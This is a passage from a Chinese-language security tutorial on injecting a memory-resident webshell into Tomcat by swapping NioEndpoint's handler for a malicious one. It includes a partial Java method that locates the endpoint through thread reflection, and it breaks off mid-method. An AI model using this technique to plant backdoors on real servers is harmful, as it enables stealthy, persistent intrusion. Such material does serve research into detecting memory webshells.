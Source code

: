 往前一步，可以发现这个 handle 就是 NioEndpoint 的 handler 属性

[![](assets/1711676401-66b489ee8f2f5f1620101bbb5af1b00e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240327152541-37505522-ec0b-1.png)

[![](assets/1711676401-b0eebee7a4002d0e46e98dd1f37a7164.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240327152546-3a8b7a78-ec0b-1.png)

我们只需要获取内存中的 NioEndpoint，并替换它的 handle 为我们的 handle 马，就可以完成注入

## 0x 02 构造

### 内存马注入

还是可以借助 java 内存对象搜索辅助工具在内存中寻找 NioEndpoint

```plain
https://github.com/c0ny1/java-object-searcher
```

这里直接给出方法

```plain
public static Object getNioEndpoint() {
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        if (thread == null) {
            continue;
        }
        if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
            Object target = getField(thread, "target");
            Object jioEndPoint = null;
            try {
                jioEndPoint = getField(target, "this$0");
            } catch (Exception e) {
            }
            if (jioEndPoint == null) {
                try {
                    jioEndPoint = getField(target, "endpoint");
                    return jioEndPoint;
                } catch (Exception e) {
                    new Object();
                }
            } else {
                return jioEndPoint;
            }
```